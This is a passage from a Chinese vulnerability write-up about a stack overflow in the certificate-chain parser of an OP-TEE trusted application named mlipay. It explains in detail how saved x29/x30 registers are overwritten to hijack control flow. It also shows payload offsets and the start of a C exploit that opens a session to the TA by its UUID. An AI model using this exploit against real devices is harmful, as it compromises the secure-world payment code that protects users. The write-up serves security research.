 > 当逆向目标需要精确到字节的级别时，就不好连蒙带猜了，容易出错

- 输入的证书链数据中只有4个4字节数据会直接写入到栈上
- 栈上还会存3个指向证书链中变长数据的指针
- 因此循环里的内存写不是简单的memcpy，还会向栈上写入不可控的内存地址

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/resolve1.png)

如果令输入的变长数据的长度均为0，则一轮循环的输入退化为最简格式：4个4字节数据，后3个必须为0，而一轮循环的输出还是覆盖栈上的0x38（7*8）个字节。因此第5轮首次应该覆盖到栈上保存的x29寄存器的低4个字节，而x30寄存器应该覆盖为不可控的内存地址。因此按照推算，控制流劫持到任意地址压根不成立，这显然与实际矛盾：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/resolve2.png)

因为没有调试底层的能力，所以也不能通过调试器直接观察栈内存进行排错，因此还是只能继续逆向来寻找答案，那么关注点还要放到栈上。在ARM64函数调用的一般情况下，函数的栈在函数开头就抬好了，在整个当前函数的执行过程中，不会再次调整栈顶。也正是基于这个常见情况，我推测，漏洞函数sub_801F27C的while循环写的v29数组后面紧跟着的就是父函数栈上的x29和x30，但这与实际矛盾，因此可以推出：可能是父函数的栈变化了。寻找sub_801F27C的父函数，往上追踪其父级函数sub_801FA5C在调用sub_80243CC之前，确实在函数中间抬栈了 `sub sp, sp, #0x30`：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/stack.png)

因此漏洞函数sub_801F27C的v29数组结束后，距离父函数sub_801FA5C的栈上的x29寄存器还有0x30的偏移。而一轮循环解析可以覆盖0x38长度的数据，所以第5轮循环结束正好覆盖到父函数sub_801FA5C栈上保存的x29寄存器，因此第6轮的首4字节，可以覆盖到父函数sub_801FA5C栈上保存的x30（lr）寄存器的低四个字节，而目标OP-TEE的地址空间也只有32个bit，所以只覆盖x30的低四个字节也是正好，最后当sub_801FA5C函数返回时，任意地址的控制流劫持发生：

> 所以也是巧了，要是没有sub_801FA5C这个抬栈，任意地址的控制流劫持甚至都无法发生

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/stack2.png)

令输入的变长数据的长度均为0，每轮循环的输入退化为最简的4个4字节数据，因此每轮的输入数据为16个字节，所以将第6轮首4个字节设置为0xdeadbeef，即可将控制流劫持到0xdeadbeef：

```c
*(int *)     (payload + 0x38) = 6;		// number of cert !!!
*(int *)     (payload + 0x3c + 16*5) = 0xdeadbeef;	
```

完整exp如下：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <tee_client_api.h>

void debug(char * buf,int len){
    for(int i=0;i<len;i++){
        if((i%8==0)  && (i!=0)) printf("  ");
        if((i%16==0) && (i!=0)) printf("\n");
        printf("%02X ",buf[i] & 0xff);
    }
    printf("\n");
}

int main(void){
    TEEC_Context ctx ;
    TEEC_Session sess;
    TEEC_Operation op;
    TEEC_UUID uuid = {0x66F1C983, 0x2444, 0x42B4,{0x8D, 0xB1, 0x32, 0xB2, 0x89, 0x48, 0x61, 0x76 }};

    int r = 0;

    r = TEEC_InitializeContext(NULL, &ctx);
    r = TEEC_OpenSession(&ctx, &sess, &uuid, TEEC_LOGIN_PUBLIC, NULL, NULL, NULL);
    printf("[+] open   mlipay : %d\n",r);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE, TEEC_NONE);
```